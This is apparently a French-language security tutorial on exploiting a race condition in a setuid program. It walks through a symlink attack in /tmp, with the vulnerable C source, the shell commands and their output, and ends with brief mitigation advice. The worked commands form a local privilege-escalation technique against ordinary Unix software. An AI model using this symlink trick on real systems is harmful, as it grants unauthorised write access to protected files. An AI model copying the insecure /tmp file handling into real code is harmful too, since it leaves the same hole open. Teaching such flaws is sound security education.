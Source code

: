 # Race Condition

## I. Introduction
L'idée de la Race Condition est de profiter de l'accès concurrent de deux acteurs à une même ressource, et qu'au moins l'un d'entre eux est susceptible de modifier l'état de celle-ci. Nous allons par exemple ici rediriger les actions effectuées par le programme `vuln` d'un fichier à un autre.

## II. Pré-requis
* Avoir le droit de lecture écriture dans `/tmp/`
* Le programme `vuln` est suid, ou bien éxécuté par un utilisateur ayant les bons privilèges

```{r, engine='bash'}
aas@air:~$ cat vuln.c
int main(int arc, char **argv)
{
	int fd = open("/tmp/file",O_RDWR|O_CREAT, 0666);
	chmod("/tmp/file", 0777);
	close(fd);
	return 0;
}
```

Ce programme accorde des droits rwx à tout le monde pour le fichier `/tmp/file`. 

## III. Exploitation
Mettons que nous souhaitions maintenant écrire dans un fichier `/tmp/interdit` auquel nous n'avons pas les droits en écriture. Si nous pouvions détourner les actions entreprises par le programme `vuln` sur `/tmp/file` à `/tmp/interdit`, nous obtiendrions les droits nécéssaires. Cela est possible grace aux liens symboliques.

### Création du lien symbolique
```{r, engine='bash'}
aas@ubuntu:~$ ln -s /tmp/interdit /tmp/file
aas@ubuntu:~$ ls -l
total 13
-rwsr-xr-x  1 root       root      11238 2012-06-26 15:27 vuln
-rw-r--r--  1 root       root        188 2012-06-26 15:26 vuln.c
lrwxrwxrwx  1 aas        aas           9 2012-07-06 15:35 file -> interdit
-rw-r--r--  1 root       root          0 2012-07-06 15:22 interdit
```
Le fichier `file` pointe vers `interdit`. Lorsqu'on agit sur `file`, on agit donc en réalité sur `interdit`.

### Execution
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln
aas@ubuntu:~$ ls -l
total 13
-rwsr-xr-x  1 root       root      11238 2012-06-26 15:27 vuln
-rwsr--r--  1 root       root        188 2012-06-26 15:26 vuln.c
lrwxrwxrwx  1 aas        aas           9 2012-07-06 15:35 file -> interdit
-rwxrwxrwx  1 root       root          0 2012-07-06 15:22 interdit
```
Lorsque `vuln` est executé, il cherche à attribué les droits 777 à `file`, mais puisque `file` est un lien symbolique vers `interdit`, les droits sont en réalité affectés à `interdit`. Nous avons accédé de manière concurrente à une resource, l'avons modifié, et par conséquent avons trompé le programme vulnérable.

## IV. Sécurisation
Même s'il n'y a pas vraiment de protection efficace, notons que les mécanismes de sélection d'accès (sémaphores par exemple) doivent être mis en place, il faut protéger les repertoires temporaires avec l'option `nosuid`, etc...

## V. Sources
[Lien1](http://blog.stalkr.net/2010/11/exec-race-condition-exploitations.html)
